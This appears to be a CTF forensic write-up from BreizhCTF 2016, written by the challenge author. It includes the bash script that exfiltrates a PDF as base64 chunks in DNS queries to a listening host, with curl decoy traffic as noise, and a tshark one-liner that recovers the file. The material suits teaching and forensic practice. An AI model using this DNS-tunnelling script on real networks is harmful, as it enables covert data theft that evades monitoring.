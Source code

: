 #BREIZHCTF 2016 : DO NOT STRUGGLE ME

**Category:** FORENSIC |
**Points:** 175 |
**Solves:** 4% |

---

##Code and Write-up

This challenge is a well-known technique we have already had in some CTFs.<br>
But Saxx ask me to do this, and I can not refuse him anything :) <br>
It is a simple DNS query, like this :<br>
`<base64>.ndd`

Here is my script to generate it (and some noise) :
```bash
f="flag_bzh.pdf"
s=4
b=57
c=0

_noise(){
    URL=(
        'https://www.google.fr'
        'https://twitter.com/'
        'https://home.regit.org/'
        'https://fr.wikipedia.org/wiki/Cowabunga'
        'https://kawabunga.ca/'
        'http://www.maredsous.be/'
        'http://www.bierebel.com/styles-de-bieres-belges/bieres-d-abbaye'
        'https://www.saveur-biere.com/fr/3-biere-bouteille/type-abbaye'
        'https://www.brewdog.com/item/16/BrewDog/Punk-IPA.html'
        'https://unepetitemousse.fr/brasserie/brewdog/biere/punk-ipa'
        'http://www.efe.fr/formations/'
        'http://www.ssi.gouv.fr/'
        'http://www.synactiv.fr/'
        'http://www.gfi.fr/'
        'http://www.soprasteria.com/fr'
        ## THX to SaxX for the following ##
        'http://www.jaimelestratra.fr'
        'http://www.p0rng4y.com'
        'http://www.labretagneilpleut.fr'
        'http://www.hollandeflamby.com'
        'https://www.japprendsautiliserdd.fr'
        'https://www.howtodd.fr'
        'https://www.pamelaanderson.xx'
        'https://www.rosie.fr'
        'https://www.bonjourmadame.fr'
    )
    while sleep 1; do
        RAND=$((RANDOM % ${#URL[@]}))
        curl -s --connect-timeout 2 "${URL[RAND]}" &> /dev/null
    done
}
 
_noise & PID="$!"
echo "GO DNS"
## No need to think, take it : https://github.com/m57/dnsteal
for r in $(for i in $(base64 -w0 $f| sed "s/.\{$b\}/&\n/g");do
    if [[ "$c" -lt "$s"  ]]; then
        echo -ne "$i-."
        c=$(($c+1))
    else
        echo -ne "\n$i-."
        c=1
    fi
done ); do
    dig @192.168.69.29 `echo -ne $r"queuedlamour.tra"|tr "+" "*"` +short
    echo "OK"
    sleep $((RANDOM%4))
done
kill -9 $PID
```

The onliner to solve it:

```bash
>>> tshark -r dns_chall.pcap -Y 'ip.src == 192.168.69.29' -Tfields -edns.qry.name |sed-re's/-.//g;s/queuedlamour.tra//g;s/\*/+/g' | tr -d '\n' |base64 -d > out

>>> file out
out: PDF document, version 1.3 

>>> zathura out
```

The PDF gives the flag.

<br>
Pwned.<br>
__Flag__ : BRZHCTF{je sais plus et j'ai la flemme de scp}

Enjoy,<br>
\- [Notfound](https://www.notfound.ovh)
